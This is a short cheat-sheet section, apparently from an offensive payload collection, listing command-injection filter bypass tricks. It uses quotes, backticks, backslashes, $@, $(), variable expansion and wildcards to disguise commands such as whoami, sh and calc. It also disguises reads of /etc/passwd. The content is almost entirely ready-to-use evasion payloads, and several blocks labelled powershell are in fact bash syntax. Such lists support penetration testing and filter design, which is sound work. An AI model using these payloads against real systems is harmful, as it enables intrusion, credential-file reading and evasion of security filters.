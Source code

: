 ### Bypass With Double Quote

```powershell
w"h"o"am"i
wh""oami
"wh"oami
```

### Bypass With Backticks

```powershell
wh``oami
w``h``o``a``m``i
```

### Bypass With Backslash and Slash

```powershell
w\ho\am\i
/\b\i\n/////s\h
```

### Bypass With $@

`$0`: Refers to the name of the script if it's being run as a script. If you're in an interactive shell session, `$0` will typically give the name of the shell.

```powershell
who$@ami
w$@h$@o$@a$@m$@i
echo whoami|$0
```

### Bypass With $()

```powershell
who$()ami
w$()$()$()$()h$()$()o$()$()a$()$()m$()$()i
who$(echo am)i
who`echo am`i
```

### Bypass With Variable Expansion

```powershell
/???/??t /???/p??s??

test=/ehhh/hmtc/pahhh/hmsswd
cat ${test//hhh\/hm/}
cat ${test//hh??hm/}
```

### Bypass With Wildcards

```powershell
powershell C:\*\*2\n??e*d.*? # notepad
@^p^o^w^e^r^shell c:\*\*32\c*?c.e?e # calc
```
